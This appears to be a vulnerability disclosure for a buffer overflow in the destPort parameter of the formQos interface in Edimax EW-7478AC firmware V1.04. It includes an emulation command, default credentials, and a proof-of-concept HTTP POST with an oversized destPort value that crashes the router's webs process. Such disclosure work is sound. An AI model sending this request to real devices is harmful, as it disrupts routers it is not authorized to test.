

## **Description**

A buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.04**. The vulnerability arises from the improper input validation of the `destPort` parameter in the 'formQos' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.04

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 


## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formQos'is below:


- ​**websGetVar** retrieves POST parameters.
- ​**strcpy()**, **sprintf()** is used without length checks, leading to a ​buffer overflow.


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formQos HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

ruleName=test&downUpType=1&bwidthVal=20000&bwidthType=0&sourType=0&sourStIp=192.168.1.1&sourEdIp=192.168.1.254&sourPort=0-1080&destStIp=192.168.1.1&destEdIp=192.168.1.254&destPort=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&trafType=0&protocol=0&configWan=1&configNum=&addQos=Add&framename=frame_1
```

After the request the `webs` process will crash.
